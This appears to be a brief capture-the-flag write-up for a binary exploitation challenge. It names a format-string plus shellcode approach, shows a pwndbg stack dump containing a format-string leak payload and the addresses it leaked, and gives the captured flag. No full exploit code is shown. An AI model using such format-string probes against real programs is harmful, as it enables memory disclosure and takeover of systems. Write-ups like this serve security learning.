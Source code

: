 # 思路
fmtstr + shellcode

# debug

00:0000│ rsp 0x7ffee5a0adc0 —▸ 0x7ffee5a0b328 —▸ 0x7ffee5a0c511 ◂— 0x6c6c6168632f2e /* './chall' */
01:0008│-438 0x7ffee5a0adc8 ◂— 0x100000000
02:0010│-430 0x7ffee5a0add0 ◂— 0
03:0018│-428 0x7ffee5a0add8 ◂— 0x32b32f42e0
04:0020│-420 0x7ffee5a0ade0 ◂— 0x1a0c23d
05:0028│-418 0x7ffee5a0ade8 —▸ 0x7fccb32bbd78 ◂— 0x37ff8
06:0030│-410 0x7ffee5a0adf0 ◂— '%5$p--%10$p--%16$p\n'
07:0038│-408 0x7ffee5a0adf8 ◂— '0$p--%16$p\n'
pwndbg>
08:0040│-400 0x7ffee5a0ae00 ◂— 0x1e000a7024 /* '$p\n' */
09:0048│-3f8 0x7ffee5a0ae08 ◂— 6
0a:0050│-3f0 0x7ffee5a0ae10 —▸ 0x7ffee5a0af50 —▸ 0x7ffee5a0b210 —▸ 0x7ffee5a0b250 —▸ 0x5645be00cd90 (__do_global_dtors_aux_fini_array_entry) ◂— ...


  b'(nil)--0x1a0c23d--0x7ffee5a0af50\n'

# getshell
tjctf{sys_c4ll3d_l1nux_294835}

![](https://r2.20161023.xyz/pic/20250607213018904.png)